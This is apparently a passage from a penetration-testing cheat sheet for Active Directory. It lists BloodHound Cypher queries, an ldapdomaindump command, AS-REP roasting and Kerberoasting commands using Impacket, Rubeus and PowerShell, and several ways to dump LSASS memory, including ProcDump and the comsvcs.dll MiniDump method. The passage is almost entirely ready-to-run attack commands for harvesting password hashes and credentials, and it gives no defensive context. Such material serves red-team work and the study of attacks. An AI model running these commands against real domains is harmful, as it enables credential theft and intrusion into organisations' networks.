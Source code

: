    * `ADExplorerSnapshot.py test.dat`


## Cypher

* GUI/Graph Queries
   * Computers where users can RDP
      * `MATCH c=(C:Computer)-[r2:CanRDP]-(U:User) return c`
   * Everything related to backups
      * `MATCH (n) WHERE n.description =~ "(?i).*(acronis|avamar|backup|barracuda|cohesity|commvault|dpm|rubrik|spectrum|unitrends|veeam|veritas).*" RETURN n`
   * Logon sessions
      * `MATCH c=(C:Computer)-[r2:HasSession]-(U:User) return c`
* Console Queries
   * Use Chrome for accessing the Neo4j browser
      * http://localhost:7474/browser/
   * Get all AD descriptions
      * `MATCH (n) WHERE n.description IS NOT NULL RETURN n.name,n.description`


## Ldapdomaindump

* Kali
   * `ldapdomaindump -u '<domain>\<user>' -p '<pass>' <dc-ip>`


## ASReproast

* Don't forget to check ALL domains!
* Impacket
   * `GetNPUsers.py <domain>/<user>:<pass> -dc-ip <ip>`
* Rubeus
   * `Rubeus.exe asreproast /format:hashcat /outfile:asreproast.txt`


## Kerberoast

* Don't forget to check ALL domains!
* Impacket
   * `GetUserSPNs.py <domain>/<user>:<pass> -dc-ip <ip> -request-user <username>`
* PowerShell
   * `Invoke-Kerberoast -OutputFormat HashCat | Select-Object -ExpandProperty hash | Out-File -Encoding ascii kerberoast.txt`
* Rubeus
   * `Rubeus.exe kerberoast /format:hashcat /outfile:kerberoast.txt [/tgtdeleg]`


## LSASS Dump

* GUI
   * `Task Manager > Details > lsass.exe > Create dump file`
* ProcDump
   * `procdump.exe -accepteula -r -ma <lsass_pid> debug.dmp`
* RunDLL
   * `Get-Process lsass`
   * `rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <pid> C:\Windows\Tasks\debug.dmp full`
